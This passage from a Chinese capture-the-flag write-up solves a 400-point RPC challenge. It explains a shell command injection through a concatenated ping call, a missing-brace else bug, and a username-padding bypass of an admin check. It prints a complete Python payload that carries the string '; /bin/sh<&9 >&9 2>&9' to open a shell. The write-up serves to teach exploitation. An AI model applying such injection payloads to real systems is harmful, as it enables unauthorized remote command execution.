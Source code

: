 即可。

这里还可能会有的问题的地方就是time_t了,在32位下是unsigned int,大小是4字节;而在64位下是unsigned long long,大小是8字节。本地测试的时候 还发现,如果是64位的话这个struct stc的内部结构可能还会有一些对齐方面的问题。经过测试服务器上的程序是32位的,不会有64位上的对齐问题。

### 400pt

这个程序非常诡异的在rpc_function_1里有调用system函数:

```
char cbuffer[512];
snprintf(cbuffer, 512,"ping %s",temp.buffer); 
system(cbuffer);

```

这里temp.buffer的长度限制为256,而cbuffer为512,所以不会有溢出。但是后面这个system真是让人醉了,看起来好像是在执行ping,但是参数是用字 符串拼接起来的,只要里面有分号就可以造成命令注入,比如拼接上如下字符串`'; /bin/sh<&9 >&9 2>&9'`就可以在远端起一个shell。剩下的还是要过程序前面的逻辑的问题,粗看了下似乎需要用户名为admin才有执行命令的权限,而做口令判断的这个地方用到了function3,而function3实际上是弗吉尼亚 密码,用admin登录时候的key就是”admin”,经过加密变换之后需要与”ALIBABA”相等,于是就可以构造好用户名和口令了,但是本地测试的时候却莫名 其妙地提示No privilege.感觉非常奇怪,于是就上gdb在校验密码的地方下了个断点,发现login变量先被赋值成1,而后又被赋值成0,非常诡异,而后再 去看代码,看到

```
if(strcmp(value,"ALIBABA") == 0) 
    login = 1;
else
    printf("%s login failed!",szUser); 
    login = 0;

```

这个真是醉了,else后面居然没加大括号!这个跟苹果之前被爆出的goto fail bug有异曲同工之处。这就导致了login = 0;这句赋值始终会被执行, 同时也就意味着admin永远无法登陆成功,难道这个system就是故意放着逗你玩的吗?再从头仔细看一遍代码,发现提交数据中的temp.user和temp.pass长度都是128,而用来做判断的szUser和szPass只取了前面63个字节,并且只是对temp.user用function1去掉了尾部的空格,并没有处理szUser和szPass,只是 在作为guest登录成功之后才会用function1处理一下szUser,而后的权限检查是判断这个处理过后的szUser是否等于"admin",所以可以构造这样一个

```
user = 'admin'.ljust(64, ' ') + 'p'

```

以guest的逻辑登录并且绕过admin的权限检查,最终的提交数据为

```
user = 'admin'.ljust(64, ' ') + 'p' 
hashval = 'alibaba'
password = ''
for i in xrange(len(hashval)):
    c = chr((ord(hashval[i]) - ord('guest'[i%5])) % 26 + ord('a'))
    password += c
cmd = '; /bin/sh<&9 >&9 2>&9'
data = user.ljust(128, '\x00') + password.ljust(128, '\x00') + cmd.ljust(256, '\x00')

```

本地测试的时候可以成功开出shell,不过远程的服务器就只是返回了一个flag而已>_<
